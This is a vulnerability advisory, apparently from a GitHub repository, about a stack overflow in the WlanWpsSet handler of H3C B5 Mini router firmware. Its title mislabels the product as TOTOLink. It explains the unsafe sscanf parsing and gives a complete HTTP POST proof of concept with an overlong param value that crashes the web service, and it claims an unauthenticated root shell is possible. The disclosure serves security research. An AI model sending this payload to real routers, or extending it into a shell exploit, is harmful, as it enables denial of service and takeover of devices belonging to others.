



# TOTOLink H3C B5 Mini B5MiniV100R005 has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202007/1311628_30005_0.htm

### Product Information

H3C B5 Mini B5MiniV100R005 router, the latest version of simulation overview：


## Vulnerability details

The H3C B5 Mini B5MiniV100R005 router was found to have a stack overflow vulnerability in the WlanWpsSet function. An attacker can obtain a stable root shell through a carefully constructed payload.



In the `WlanWpsSet` function, `V5`(the value`param`) we entered is formatted using the `sscanf` function and in the form of `%d;%[^;];`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `V7`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 536
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: LOGIN_PSD_REM_FLAG=0; PSWMOBILEFLAG=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=WlanWpsSet&param=1;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;
```



The picture above shows the process information before we send poc.



In the picture above, we can see that the PID has changed since we sent the POC.


The picture above is the log information.


By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).


Finally, you also can write exp to get a stable root shell without authorization.